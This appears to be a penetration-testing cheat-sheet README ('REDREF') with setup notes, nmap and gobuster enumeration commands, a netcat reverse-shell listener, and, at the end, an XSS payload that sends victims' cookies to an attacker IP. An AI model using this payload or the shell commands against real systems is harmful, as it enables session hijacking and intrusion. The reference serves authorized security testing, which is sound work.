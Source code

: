 # REDREF

A red teaming reference for attacking boxes. Thie repository contains notes, comands and tips for penetration testing. Notes are arranged according to the [MITRE ATT&CK framework](https://attack.mitre.org/).



## Setup

myproject
    |
    |__ myproject.md        <-- stores the summary notes
    |__ requirements.txt    <-- python libraries used within this project
    |__ variables.sh        <-- contains variables for the target environment
    |__ .gitignore          <-- use to tell git to ignore certain files/filetypes
    |__ .venv               <-- folder for python interpreter specific to this project

My preferred method is on starting a new project is to create a folder under on the local filesystem for the project. This folder will store all scripts and outputs specific to the project. I also create a notes file in markdown (.md) format for recording key notes throughout the testing.

It is very useful to set shell variables that can be reused multiple times. This saves typing these on the command line repeatedly. Most of the commands in this repository rely on these variables being set.

The project folder should be under Git version control and synced to a repository.


### Set variables
Use this format below. When recommencing work on a project just `source variables.sh` and you are away.

```
target_ip='10.10.10.10'
user='john'
pass='password123'
domain='mydomain'
```    


### Python virutal environments
When crafting payloads or exploits, or running custom cracking tools it is often useful to use python. The best way of doing this is to create a virtual environment within the project folder.
- Install venv: `sudo apt install python3-venv`
- Create a new virtual environment called .venv in the current directory `python -m venv .venv`
- Activate the environment `source .venv/bin/activate`
- Create a text file with python libraries required for the project (one library per line). By convention this is called `requirements.txt`.
- Install required packages listed in requriements.txt `pip install requirements.txt`



## General process

### Getting started.

- **Host and Port Scanning**: First step is usually to run nmap to find out what ports and services are open. Use a range of scans. At least a broad scan to identify open ports, then use service and script enumeration to obtain further details.



## Super useful reference sites:

1. [WADComs](https://wadcoms.github.io/): An interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.


## TO DO
The following sections need to find a home.

### Directory enumeration
Set variables: `target_url="target_url"`
- Gobuster: `gobuster dir -u $target_url -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt | tee gobuster_dir.txt`

### VHost
gobuster vhost -v -u https://abrictosecurity.com -w /usr/share/wordlists/subdomains/top5000subdomains -o vhostlist.txt

### Sniffing & Spoofing
Show connected and listening sockets `netstat -an` (-n shows numberical port)


## Exploitation

### Reverse shells
- Create a listener using netcat `nc -lvvp [port]`
- Spawn a bash shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Web Server Listener
- Start a simple python web server to listen for connections: `python -m http.server 5000`'



## XSS Payloads
- Img: `<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie); </script>`